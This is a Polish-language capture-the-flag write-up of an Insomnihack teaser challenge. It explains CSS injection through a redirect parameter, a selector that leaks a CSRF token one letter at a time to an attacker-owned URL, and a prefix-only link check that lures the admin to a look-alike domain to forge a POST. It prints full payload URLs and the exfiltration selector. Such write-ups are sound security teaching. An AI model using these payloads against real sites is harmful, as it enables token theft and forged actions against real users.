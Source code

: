 Podsumowując, na tą chwilę mamy:

- CSP pozwala załadować style z tej samej domeny
- Możemy na stronie wyświetlić dowolny tekst
- Możemy wstrzyknąć tagi html
- CSP pozwala na ładowanie obrazków z zewnętrznego serwera

To prowadzi nas do pierwszego fragmentu rozwiązania - możemy wstrzyknąć tag `<link rel="stylesheet" href="COŚ"/>` aby załadować styl css wybrany przez nas.
W tym przypadku `COŚ` musi być linkiem do podstrony która wypisuje nasz styl, na przykład:

`http:\\css.teaser.insomnihack.ch\index.php?search=%0a%7B%7D%20body%20%7B%20background-color%3A%20lightblue%3B%20%7D%0a&page=search&.css` 

Które wypisuje: `Search results for : {} body { background-color: lightblue; }` 

Łącząc oba mamy: `http://css.teaser.insomnihack.ch/index.php?page=login&redirect=%22%3E%3Clink%20rel=%22stylesheet%22%20href=%22http%3A%5C%5Ccss.teaser.insomnihack.ch%5Cindex.php%3Fsearch%3D%250a%257B%257D%2520body%2520%257B%2520background-color%253A%2520lightblue%253B%2520%257D%250a%26page%3Dsearch%26.css`

Co daje nam niebieskie tło ma stronie, czego oczekiwaliśmy.
Warto rozumieć, ze ładujemy cały html strony jako styl, ale parser CSS pomija błędne dyrektywy.

Możemy teraz użyć selektorów CSS aby pobrać dane ze strony.
Możemy utworzyć w stylu wpisy:

`input[value^="a" i]{background: url('http://url.we.own/a')`

Teraz nasłuchując na requesty HTTP do podanego urla możemy sprawdzić czy atrybut `value` pól `input` na stronie zaczyna się od litery `a`.

Jest tu kilka problemów:

- Jedyne co możemy ukraść to token CSRF
- Możemy pobierać dane jedynie litera po literze. Potrzebujemy znać pierwszą literę żeby przygotować nowe selektory CSS do wyciągnięcia drugiej litery itd.
- Wygląda na to, że token zmienia za każdym razem kiedy wysyłamy link do admina, więc token trzeba pobrać na raz.
- Nawet jeśli dostaniemy token CSRF, to nadal nie możemy uruchomić żadnego skryptu JS, więc nie mamy jak wysłać żądania POST.

Początkowo myśleliśmy że admin wchodzi tylko pod linki z domeny `http://css.teaser.insomnihack.ch`, ale w rzeczywistości okazało się, że to nie do końca prawda i sprawdzany jest jedynie `prefix` adresu a nie domena.
Oznacza to, że możemy zarejestrować sobie `http://css.teaser.insomnihack.ch.our.cool.domain` i admin wejdzie na nasz link.

To rozwiązuje zagadkę wysyłania żądania POST, ponieważ możemy zwabić admina na naszą własną stronę i wysłać request stamtąd.
Rozwiązuje to też problem pobrania tokenu CSRF, bo możemy na naszej stronie dynamicznie generować iframe z selektorami CSS dla kolejnych liter.
Tworzymy iframe dla pierwszej literki, pobieramy pasującą literę z `backendo` (który nasłuchuje na requesty z CSS), następnie tworzymy nowy iframe z selektorami dla dwóch liter ze znanym prefixem itd.
Po pobraniu całego tokenu możemy wysłać POST jako admin.
